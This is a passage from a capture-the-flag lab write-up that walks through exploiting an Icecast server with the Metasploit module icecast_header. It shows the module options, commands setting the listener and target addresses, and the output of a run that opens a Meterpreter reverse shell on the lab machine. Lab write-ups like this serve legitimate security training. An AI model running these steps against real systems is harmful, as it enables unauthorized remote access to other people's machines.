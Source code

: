     Name    Current Setting  Required  Description
    ----    ---------------  --------  -----------
    RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
    RPORT   8000             yes       The target port (TCP)


    Payload options (windows/meterpreter/reverse_tcp):

    Name      Current Setting  Required  Description
    ----      ---------------  --------  -----------
    EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
    LHOST     192.168.40.129   yes       The listen address (an interface may be specified)
    LPORT     4444             yes       The listen port


    Exploit target:

    Id  Name
    --  ----
    0   Automatic
    ```

    It's RHOSTS.

- First let's check that the LHOST option is set to our tun0 IP (which can be found on the access page). With that done, let's set that last option to our target IP. Now that we have everything ready to go, let's run our exploit using the command `exploit`

    ```bash
    msf6 exploit(windows/http/icecast_header) > set LHOST 10.11.25.205
    LHOST => 10.11.25.205
    msf6 exploit(windows/http/icecast_header) > set RHOSTS 10.10.169.246
    RHOSTS => 10.10.169.246
    msf6 exploit(windows/http/icecast_header) > 
    msf6 exploit(windows/http/icecast_header) > run

    [*] Started reverse TCP handler on 10.11.25.205:4444 
    [*] Sending stage (175174 bytes) to 10.10.169.246
    [*] Meterpreter session 1 opened (10.11.25.205:4444 -> 10.10.169.246:49243) at 2021-01-28 03:51:16 -0500

    meterpreter >
    ```

## Escalate
- Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now?
> meterpreter
- What user was running that Icecast process?

    ```bash
    meterpreter > getuid
    Server username: Dark-PC\Dark
    ```
